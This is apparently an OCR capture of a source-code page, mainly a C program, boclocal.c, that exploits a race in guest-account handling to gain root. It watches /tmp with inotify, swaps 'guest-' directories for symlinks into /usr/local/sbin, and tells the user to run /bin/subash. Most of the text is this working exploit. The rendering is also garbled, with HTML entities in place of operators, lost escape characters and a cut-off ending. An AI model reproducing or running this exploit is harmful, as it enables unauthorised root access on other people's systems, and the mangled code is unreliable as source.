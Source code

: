 ```
      }
    }
  }
}
```

boclocal.c



```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;string.h&gt;
#include &lt;ctype.h&gt;
#include &lt;sys/inotify.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;pwd.h&gt;
#define EVENT_SIZE(sizeof(struct inotify_event))
#define EVENT_BUF_LEN(1024 * (EVENT_SIZE + 16))
int main(void) {
  struct stat info;
  struct passwd * pw;
  struct inotify_event * event;
  pw = getpwnam("root");
  if (pw == NULL) exit(0);
  char newpath[20] = "old.";
  int length = 0, i, fd, wd, count1 = 0, count2 = 0;
  int a, b, c;
  char buffer[EVENT_BUF_LEN];
  fd = inotify_init();
  if (fd &lt; 0) exit(0);
  wd = inotify_add_watch(fd, "/tmp/", IN_CREATE | IN_MOVED_FROM);
  if (wd &lt; 0) exit(0);
  chdir("/tmp/");
  while (1) {
    length = read(fd, buffer, EVENT_BUF_LEN);
    if (length &gt; 0) {
      event = (struct inotify_event * ) buffer;
      if (event - &gt; len) {
        if (strstr(event - &gt; name, "guest-") != NULL) {
          for (i = 0; event - &gt; name[i] != ''; i++) {
            event - &gt; name[i] = tolower(event - &gt; name[i]);
          }
          if (event - &gt; mask &amp; IN_CREATE) mkdir(event - &gt; name, ACCESSPERMS);
          if (event - &gt; mask &amp; IN_MOVED_FROM) {
            rename(event - &gt; name, strncat(newpath, event - &gt; name, 15));
            symlink("/usr/local/sbin/", event - &gt; name);
            while (1) {
              count1 = count1 + 1;
              pw = getpwnam(event - &gt; name);
              if (pw != NULL) break;
            }
            while (1) {
              count2 = count2 + 1;
              stat("/usr/local/sbin/", &amp; info);
              if (info.st_uid == pw - &gt; pw_uid) {
                a = unlink(event - &gt; name);
                b = mkdir(event - &gt; name, ACCESSPERMS);
                c = symlink("/var/tmp/kodek/bin/", strncat(event - &gt; name, "/bin", 5));
                if (a == 0 &amp;&amp; b == 0 &amp;&amp; c == 0) {
                  printf("n[!] GAME OVER !!!n[!] count1: %i count2: %in[!] w8 1 minute and run /bin/subashn", count1, count2);
                } else {
```